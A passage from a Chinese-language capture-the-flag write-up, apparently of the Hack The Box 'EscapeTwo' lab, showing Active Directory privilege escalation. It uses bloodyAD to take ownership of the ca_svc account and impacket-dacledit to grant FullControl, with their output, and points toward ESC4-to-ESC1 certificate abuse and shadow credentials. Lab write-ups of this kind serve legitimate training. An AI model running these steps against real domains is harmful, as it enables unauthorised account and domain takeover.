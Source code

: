 ![](./images/image-23.png)

**Ryan**对**CA\_SVC**具有**WriteOwner**权限

并且**CA\_SVC**是证书发布者

因此可以将**CA\_SVC**的拥有者设置为**Ryan**

### Set Owner

```
[root@kali] /home/kali/EscapeTwo  
❯ bloodyAD --host '10.10.XX.XX' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6XXXXXXXX' set owner 'ca_svc' 'ryan'                                              ⏎
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
```

### Get Control Rights

- [Grant rights | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/grant-rights)

```
[root@kali] /home/kali/EscapeTwo  
❯ impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAFXXXXXXXXXXX"  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL modified successfully!
```

### ESC4 to ESC1

- [AD CS 域升级 - HackTricks](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-template-access-control---esc4)

获取影子凭证（[Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)），以及NThash
